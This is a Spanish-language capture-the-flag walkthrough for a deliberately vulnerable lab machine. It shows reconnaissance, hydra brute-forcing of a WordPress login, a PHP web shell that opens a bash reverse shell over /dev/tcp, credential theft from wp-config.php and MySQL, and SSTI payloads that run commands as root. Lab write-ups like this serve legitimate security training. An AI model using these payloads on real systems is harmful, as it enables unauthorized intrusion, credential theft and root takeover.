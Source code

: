 Maquina "TheFirstAvenger" de [TheHackersLabs](https://thehackerslabs.com)

Autor: TTyler

Dificultad: Principiante

![thl](img/Thl.png)

# RECONOCIMIENTO

En mi caso, la ip de la máquina victima es "192.168.161.32".

Comenzaremos haciendo un escaneo de nmap:

```css
nmap -sSVC -p- -Pn --open --min-rate 5000 -n -vvv 192.168.161.32 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Tue Oct 15 23:19:24 2024 as: nmap -sSVC -p- -Pn --open --min-rate 5000 -n -vvv -oN escaneo.txt 192.168.161.32
Nmap scan report for 192.168.161.32
Host is up, received arp-response (0.00081s latency).
Scanned at 2024-10-15 23:19:24 -03 for 10s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a1:96:4a:cb:4a:c2:76:f6:35:61:64:53:31:53:a5:5e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH28BbDxXnAVHtO0ZmDFo2nEtVMSR2bBvOCs/7cvuKru2GuUPyJCPiqDUJgY5PKQB45AH6KxcJxSa5895ibTFUE=
|   256 63:00:29:0f:1b:2b:58:7c:aa:6c:28:78:bf:ce:6e:5e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIG1UU9F4rvdzxt1wdz2J3AzswqbUEYj2YbIYTm6HIyUD
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Bienvenido Cibervengador!
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 08:00:27:97:3C:1E (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 15 23:19:34 2024 -- 1 IP address (1 host up) scanned in 10.24 seconds
```

Como vemos, los puertos abiertos son 2:

`22: OpenSSH 9.6p1`

`80: Apache httpd 2.4.58`

ninguna de estas versiones es vulnerable a algo que nos ayude, por lo que nos iremos directos a la web del puerto 80.

Esta web, parece ser bastante simple sin nada útil, y puedo decir esto por dos razones:

1. Es un archivo html

2. En el código fuente no hay nada interesante

Por lo que teniendo en cuenta esas dos razones, podemos ignorar completamente ese archivo.

Ahora haremos fuzzing con `gobuster` para ver si encontramos algo útil:

```css
gobuster dir -u http://192.168.161.32/ -w <Wordlist> -x php,html,txt
```

```css
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.161.32/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 279]
/index.html           (Status: 200) [Size: 474]
/.html                (Status: 403) [Size: 279]
/wp1                  (Status: 301) [Size: 314] [--> http://192.168.161.32/wp1/]
/.html                (Status: 403) [Size: 279]
/.php                 (Status: 403) [Size: 279]
Progress: 286652 / 882240 (32.49%)
===============================================================
Finished
===============================================================
```

Al parecer tenemos un directorio llamado "wp1", el cual si accedemos desde la web veremos que es un wordpress. Sabiendo esto podemos ir a "wp-admin" para que nos muestre el panel de login.(Al hacerlo nos saldrá un host, "thefirstavenger.thl" el cual deberemos agregar a "/etc/hosts" en nuestra máquina)

Al probar las credenciales "admin:admin", me dice que la contraseña es incorrecta para ese usuario, esto significa que ese usuario existe por lo tanto es el que nos interesa. Ahora haremos fuerza bruta usando `hydra` a ese panel de login para ver si obtenemos credenciales válidas (para este ataque se puede usar `wpscan` pero no me funciona correctamente por lo que lo haré con hydra):

```css
hydra -l admin -P /opt/rockyou.txt thefirstavenger.thl http-post-form "/wp1/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Acceder&redirect_to=%2Fwp1%2Fwp-admin%2F&testcookie=1:S=302"
```

![hydra](img/hydra.png)

Como vemos, tenemos unas credenciales: admin:spongebob

# INTRUSIÓN

Para realizar la intrusion, haremos el proceso habitual con un wordpress (hay muchas maneras), que es instalar la extension "file manager" y luego crear un archivo php que podamos usar para ejecutar comandos.

Para instalar el plugin, debemos ir a la seccion "Añadir nuevo plugin" y en el buscador poner "file manager" e instalar el siguiente:

![plugin](img/plugin.png)

Una vez instalado y activado, nos aparecerá una nueva sección correspondiente al plugin, a la cual iremos. Estando ahí, veremos un administrador de archivos en el cual podremos crear nuestro php, para esto vamos en ese mismo plugin a "wp-content>uploads>2024", y ahí creamos un archivo con el nombre que queramos y con el siguiente contenido:

```php
<?php
system('bash -c "bash -i >& /dev/tcp/<NUESTRA IP>/<PUERTO DE ESCUCHA> 0>&1"');
?>
```

ahora solo nos queda escuchar con netcat en el puerto que elegimos (`nc -nlvp <puerto>`) y entrar al archivo desde el navegador, una vez hecho todo esto habremos ganado acceso a la máquina como "www-data".

# ESCALADA DE PRIVILEGIOS

#### www-data

Una vez dentro, haremos el tratamiento de la tty. [¿Como hacerlo?](https://github.com/Maciferna/DockerLabs/blob/main/tratamientoTTY.md)

Luego de buscar un rato, se me ocurre entrar al mysql usando las credenciales de wordpress, para obtenerlas solo leemos el archivo que está en su carpeta y se llama "wp-config.php". Las credenciales que obtenemos son las siguientes:

``mysql: wordpress:9pXYwXSnap`4pqpg~7TcM9bPVXY&~RM9i3nnex%r``

teniendo estas credenciales nos conectaremos en la misma máquina de la siguiente manera:

```css
mysql -u wordpress -p
```

y cuando se nos pida la contraseña ingresamos la obtenida.

Ya estando ahí, podemos listar las bases de datos con `show databases;`, una vez ejecutado veremos que hay una llamada "top_secret", por lo que nos cambiamos a esta usando el comando `use top_secret;`.

Ahora listaremos las tablas: `show tables;`

veremos una llamada "avengers", la cual si la leemos con `select*from avengers;` nos dirá lo siguiente:

```css
+----+--------------+------------+----------------------------------+
| id | name         | username   | password                         |
+----+--------------+------------+----------------------------------+
|  1 | Iron Man     | ironman    | cc20f43c8c24dbc0b2539489b113277a |
|  2 | Thor         | thor       | 077b2e2a02ddb89d4d25dd3b37255939 |
|  3 | Hulk         | hulk       | ae2498aaff4ba7890d54ab5c91e3ea60 |
|  4 | Black Widow  | blackwidow | 022e549d06ec8ddecb5d510b048f131d |
|  5 | Hawkeye      | hawkeye    | d74727c034739e29ad1242b643426bc3 |
|  6 | Steve Rogers | steve      | 723a44782520fcdfb57daa4eb2af4be5 |
+----+--------------+------------+----------------------------------+
6 rows in set (0.04 sec)
```

Teniendo en cuenta que hay un user llamado "steve" en esa base de datos y en el propio sistema, podemos intentar usarla para pivotar de usuario, pero al parecer es un hash por lo que antes lo sacaremos con [crackstation](https://crackstation.net/):

![pass](img/pass.png)

Tenemos la contraseña "thecaptain" para el usuario steve. (escalamos con `su steve` y su contraseña)

#### Steve

Siendo el usuario steve, no encontraremos nada interesante ni nada que nos ayude a escalar a root, pero si nos fijamos los puertos abiertos con `ss -tulun`, veremos que hay una web corriendo de manera local en el puerto `7092`. Sabiendo esto y dado que tenemos un ssh, nos conectaremos de la siguiente manera redirigiendo el puerto 7092 de la máquina victima a nuestro puerto 7092 local:

```css
ssh -L 9090:127.0.0.1:7092 steve@192.168.161.32
```

Ahora si vamos desde el navegador a "127.0.0.1:9090", veremos la web que estaba corriendo en ese puerto local de la máquina víctima:

![7092](img/7092.png)

Luego de estár probando algunas cosas, veo que estamos frente a un SSTI(server side template injection), ya que al poner en donde nos pide una dirección "{{7*77}}", nos cambia por "49", esto significa que podremos ejecutar comandos de manera remota usando lo siguiente:

```css
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

El cual si ejecutamos, nos devolverá esto:

```css
uid=0(root) gid=0(root) groups=0(root)
```

esto significa que la web y los comandos son ejecutados como root, por lo que en vez de id ejecutaremos lo siguiente:

```css
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('chmod u+s /bin/bash').read() }}
```

Mas info sobre SSTI:

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

[Curiosidades de Hackers](https://www.curiosidadesdehackers.com/2023/11/explotacion-de-server-side-template.html)

[HackTricks](https://book.hacktricks.xyz/es/pentesting-web/ssti-server-side-template-injection)

Una vez ejecutado, nos quedaría ir a la máquina victima y ejecutar `bash -p`, y ya seremos el usuario root y podremos leer las flags.

![root](img/root.png)

Gracias por leer....